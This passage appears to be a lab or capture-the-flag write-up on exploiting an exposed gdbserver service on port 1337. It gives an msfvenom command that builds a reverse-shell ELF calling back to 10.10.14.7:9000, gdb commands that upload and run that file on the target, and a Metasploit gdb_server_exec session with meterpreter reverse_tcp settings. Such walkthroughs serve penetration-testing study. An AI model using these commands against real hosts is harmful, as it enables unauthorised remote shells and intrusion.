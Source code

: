 It seems that `gdbserver` binary in `/home/user` directory is run and serviced on port 1337.

```bash
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

### Exploit gdbserver

I found a guide from [hacktricks](https://book.hacktricks.wiki/ko/network-services-pentesting/pentesting-remote-gdbserver.html?highlight=gdbserver#pentesting-remote-gdbserver) how to exploit gdbserver.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=9000 PrependFork=true -f elf -o rev.elf

chmod +x rev.elf

gdb rev.elf

target extended-remote 10.10.11.125:1337

remote put rev.elf /dev/shm/rev.elf

set remote exec-file /dev/shm/rev.elf

run
```

However, since I was using ARM64 architecture, I couldn't directly use this methodology.
Instead, I used metasploit.

```bash
msf6 exploit(multi/gdb/gdb_server_exec) > options

Module options (exploit/multi/gdb/gdb_server_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXE_FILE  /bin/true        no        The exe to spawn when gdbserver is not attached to
                                        a process.
   RHOSTS    10.10.11.125     yes       The target host(s), see https://docs.metasploit.com
                                        /docs/using-metasploit/basics/using-metasploit.html
   RPORT     1337             yes       The target port (TCP)


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.7       yes       The listen address (an interface may be specified)
   LPORT  9000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   x86_64

View the full module info with the info, or info -d command.

msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.10.14.7:9000 
[*] 10.10.11.125:1337 - Performing handshake with gdbserver...
[*] 10.10.11.125:1337 - Stepping program to find PC...
```